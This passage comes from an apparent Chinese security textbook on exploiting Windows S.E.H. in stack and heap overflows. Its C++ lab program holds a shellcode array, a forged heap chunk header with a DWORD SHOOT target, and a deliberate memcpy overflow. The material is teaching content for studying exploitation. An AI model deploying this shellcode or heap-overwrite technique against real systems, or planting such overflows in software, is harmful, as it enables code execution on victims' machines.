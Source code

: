 以上是一个最简单的在栈溢出中利用 S.E.H 的例子，用于让您更加深刻地领会这种攻击手法。在真实的 Windows 平台漏洞利用场景中，修改 S.E.H 的栈溢出和修改返回地址的栈溢出几乎同样流行。在许多高难度的限制条件下，直接用溢出触发异常的方法往往能得到高质量的exploit。

### 在堆溢出中利用 S.E.H

堆中发生溢出后往往同时伴随着异常的产生，所以，S.E.H 也是堆溢出中 DWORD SHOOT 常常选用的目标。实验所用代码由 5.4 节中的代码修改得到。

下面的代码用于演示：
```c++

#include <stdio.h>
#include <windows.h>
char shellcode[]=
	"\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x16\x01\x1A\x00\x00\x10\x00\x00"// head of the ajacent free block
	"\x88\x06\x52\x00"//0x00520688 is the address of shellcode in first Heapblock
	"\x90\x90\x90\x90";//target of DWORD SHOOT
DWORD MyExceptionhandler(void)
{
	ExitProcess(1);
	return 0;
}
main()
{
	HLOCAL h1 = 0, h2 = 0;
	HANDLE hp;
	hp = HeapCreate(0,0x1000,0x10000);
	h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,200);
	__asm int 3 // uesd to break the process
	memcpy(h1,shellcode,0x200);// over flow here, noticed 0x200 means 512 !
	
	__try
	{
		h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
	}
	__except(MyExceptionhandler())
	{} 
	return 0;
} 
```
